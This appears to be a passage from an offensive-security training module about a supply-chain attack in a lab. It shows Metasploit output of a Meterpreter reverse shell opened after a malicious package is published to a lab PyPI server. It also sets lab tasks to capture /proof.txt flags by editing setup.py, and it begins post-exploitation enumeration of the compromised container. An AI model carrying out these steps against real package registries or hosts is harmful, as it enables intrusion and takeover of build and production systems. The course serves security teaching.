 ```
msf6 exploit(multi/handler) >
[*] Sending stage (24772 bytes) to 44.211.221.172
[*] Meterpreter session 2 opened (10.0.1.54:4488 -> 44.211.221.172:37604)
```

> Listing 31 - Obtaining a Reverse Shell After Publishing Our Malicious Package to pypi.offseclab.io PyPI Server

Excellent! We've obtained command execution!

#### Labs

1. Once you obtain a shell on the production server, obtain the flag located in **/proof.txt**.

Answer

2. Obtain command execution on the builder server and read the file located in **/proof.txt** to obtain the flag. Do this by editing the setup.py file.

Answer

## 5.5. Compromising the Environment

Now that we have code execution, we need to pivot and attempt to gain more access. This can be done in many ways. We could find secrets in the victim's filesystem, we could pivot to other services or applications, or we could privilege escalate to a higher level user account and start the process again.

Whichever path we go down, we must fist enumerate the access that we've gained. This will give us more information about the target environment.

This Learning Unit covers the following Learning Objectives:

- Build a greater understanding of our target environment
- Understand the other services on the network
- Exploit other services through our initial entry point
- Escalate to an administrator account in the cloud provider

## 5.5.1. Enumerating the Production Container

Let's start the enumeration by interacting with the session we have just captured. We'll first start by listing all of our **sessions**. We can then interact with the session by running **sessions -i 2**.

```
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                      Information          Connection
  --  ----  ----                      -----------          ----------
  2         meterpreter python/linux  root @ 6699d104d6c5  10.0.1.54:4488 -> 198.18.53.73:37604 (172.18.0.4)

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...
```
